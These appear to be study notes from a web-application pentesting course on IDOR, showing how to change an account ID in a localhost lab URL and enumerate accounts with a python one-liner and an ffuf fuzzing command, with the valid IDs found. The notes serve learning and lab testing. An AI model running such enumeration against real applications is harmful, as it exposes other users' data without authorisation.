

# Web App - IDOR

> - [PayloadsAllTheThings - Insecure Direct Object References](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Direct%20Object%20References)

➡️ **Insecure Direct Object Reference** (**IDOR**) occurs when an application exposes direct access to objects (e.g. database records, files, etc) without proper authorization, allowing attackers to manipulate or access unauthorized data.

---

##  IDOR - Insecure Direct Object Reference

- Try to change the `account` object ID in the URL to something else
  - `http://localhost/labs/e0x02.php?account=1009`
  - `http://localhost/labs/e0x02.php?account=1010`



- Enumerate all the accounts within the application

```bash
cd $HOME/tcm/peh/webapp

# Create IDs file from 1 to 1000
python3 -c 'for i in range(1,2001): print(i)' > num.txt

ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w num.txt -fs 849
```

```bash
# Valid accounts
1000
1001
1002
1004
1006
1005
1009
1007
1010
1008
1016
1012
1014
1019
1011
1017
1015
1013
1018
1003
```

---

